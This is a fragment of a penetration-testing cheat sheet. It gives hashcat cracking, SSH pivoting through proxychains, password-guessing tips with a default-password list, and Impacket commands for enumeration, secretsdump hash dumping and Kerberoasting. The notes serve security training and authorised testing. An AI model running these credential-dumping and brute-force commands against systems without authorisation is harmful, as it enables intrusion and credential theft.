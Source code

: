 ```powershell
```


### Hashcat

> [https://hashcat.net/wiki/doku.php?id=example_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)
> 

```powershell
#Obtain the Hash module number 
hashcat -m <number> hash wordlists.txt --force
```

## Pivoting through SSH

```bash
ssh adminuser@10.10.155.5 -i id_rsa -D 9050 #TOR port

#Change the info in /etc/proxychains4.conf also enable "Quiet Mode"

proxychains4 crackmapexec smb 10.10.10.0/24 #Example
```

## Dealing with Passwords

- When there’s a scope for bruteforce or hash-cracking then try the following,
    - Have a valid usernames first
    - Dont firget trying `admin:admin`
    - Try `username:username` as first credential
    - If it’s related to a service, try default passwords.
    - Service name as the username as well as the same name for password.
    - Use Rockyou.txt
- Some default passwords to always try out!

```jsx
password
password1
Password1
Password@123
password@123
admin
administrator
admin@123

```

## Impacket

```bash
smbclient.py [domain]/[user]:[password/password hash]@[Target IP Address] #we connect to the server rather than a share

lookupsid.py [domain]/[user]:[password/password hash]@[Target IP Address] #User enumeration on target

services.py [domain]/[user]:[Password/Password Hash]@[Target IP Address] [Action] #service enumeration

secretsdump.py [domain]/[user]:[password/password hash]@[Target IP Address]  #Dumping hashes on target

GetUserSPNs.py [domain]/[user]:[password/password hash]@[Target IP Address] -dc-ip <IP> -request  #Kerberoasting, and request option dumps TGS

```